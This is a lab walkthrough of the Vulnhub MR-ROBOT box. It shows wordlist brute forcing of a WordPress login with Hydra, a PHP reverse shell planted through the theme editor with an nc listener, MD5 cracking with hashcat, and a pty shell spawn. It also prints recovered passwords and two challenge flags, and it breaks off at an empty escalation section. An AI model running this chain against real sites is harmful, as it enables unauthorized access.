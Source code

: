# This is the write up for the Vulnhub box MR-ROBOT: 1 

Ip Address: 10.38.1.112

## **Information Gathering**
---
Starting with an Nmap port Scan of we see this output:
![](2022-04-28-20-51-11.png)

The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:
![](2022-04-28-20-55-54.png)

After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 

![](2022-04-28-21-09-55.png)

It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`

![](2022-04-28-21-17-08.png)


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 

![](2022-04-28-21-30-48.png)

If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.
![](2022-04-28-21-41-41.png)


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command
![](2022-04-28-22-06-39.png)

After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress

![](2022-04-28-22-16-59.png)

When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  

![](2022-04-28-22-18-37.png)

If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.
![](2022-04-28-22-20-19.png)

Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 
![](2022-04-28-22-48-28.png)

So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make soime changes prior to uploading it to wordpress. These are the changes we need to make
☺![](2022-04-28-23-29-34.png)

ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.
![](2022-04-28-23-32-50.png)

Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 
![](2022-04-28-23-34-46.png)

Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`
![](2022-04-28-23-38-04.png)

If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash
![](2022-04-28-23-41-58.png)

We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:
![](2022-04-28-23-58-47.png)

So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 
![](2022-04-29-00-08-05.png)

After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`
![](2022-04-29-00-15-16.png)

# Escalation


